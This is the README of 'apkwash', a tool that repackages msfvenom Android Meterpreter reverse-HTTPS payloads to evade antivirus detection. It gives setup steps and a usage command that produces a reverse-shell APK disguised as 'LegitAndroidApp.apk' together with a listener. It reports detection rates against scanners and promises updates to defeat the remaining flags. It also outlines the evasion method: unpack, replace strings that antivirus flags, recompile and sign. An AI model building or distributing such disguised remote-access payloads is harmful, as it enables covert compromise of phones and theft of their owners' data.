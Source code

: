 # apkwash
Android APK Antivirus evasion for msfvenom generated payloads.
<br>
<br>
<b> Tested on Kali linux rolling. </b><br>
<br>
<b>Setup:</b><br>
apt-get update && apt-get dist-upgrade<br>
chmod +x apkwash<br>
mv apkwash /usr/local/bin/.<br>
<br>
<b>On first run:</b><br>
-Downloads and places apktool.jar in the user's /usr/local/bin directory<br>
-Generates debug keystore for signing. Places it in ~/.android/<br>
<br>
<br>
<b>Usage Example:</b><br>
apkwash -p android/meterpreter/reverse_https LHOST=<IP> LPORT=<PORT> -o LegitAndroidApp.apk<br>
<br>
<b>Output:</b><br>
\<LegitAndroidApp>.apk & \<LegitAndroidApp>.listener<br>
<br>
<b>Default values:</b><br>
	payload=android/meterpreter/reverse_https<br>
	LHOST=\<eth0 IP address><br>
	LPORT=443<br>
	output=AndroidService.apk<br>
<br>
<b>Options</b><br>
  -p | --payload 	\<payload>	This sets the payload to be generated by msfvenom.<br>
  -o | --output 	\<outfile.apk>	This sets the name of the APK created as well as the output apk file.<br>
  -x | --original 	\<infile.apk>	Input APK to inject the payload into (later update).<br>
  -g | --generate			Generate a payload using defaults<br>
  -n | --newkey 			Generate a new debug key before signing<br>
  -v | --verbose 			Don't mask output of commands<br>
  -d | --debug				Leaves the /tmp/payload files in place for review<br>
  -h | --help 				Help information<br>
<br>
<br>
<b>Antivirus detection:</b><br>
2/35 on nodistribute - 2Aug17<br>
Will be updating soon to cover these two flags.<br>
<br>
FLAGGED BY AVAST!<br>
APK:CloudRep[Susp] is the report for the suspicious app on Avast. <br>
Per Avast: "the APK:CloudRep [Susp] is a warning-like message for applications that are very new/rare/previously unseen in our userbase." Based on this alone it doesn't appear we can modify anything to avoid being flagged. It allows the user to accept the risks, or uninstall the app.<br>
<br>
<b>Modifiations:</b><br>
Feel free to open the script and make improvements. This script basically utilizes APKTool to open the package, uses sed to replace strings that flag AV, recompiles, then signs.<br>
<br>
<br>
<b>Files:</b><br>
/tmp/payload    (Main files to review: AndroidManifest.xml and the smali files)
<br>
<br>
<b>Debugging</b><br>
Run with '-d' and -'v' to display as much output along with not removing the /tmp/payload files.<br><br><br>
<b>If you are seeing other "Payload".smali files in /tmp/payload/smali/com/var1/var2/ then be sure you have an updated system (apt-get update && apt-get dist-upgrade. I have found an older msfvenom version output a different payload that will be flagged by AVG (1/35 on nodistribute). Just making sure you are completely updated should resolve this.</b>
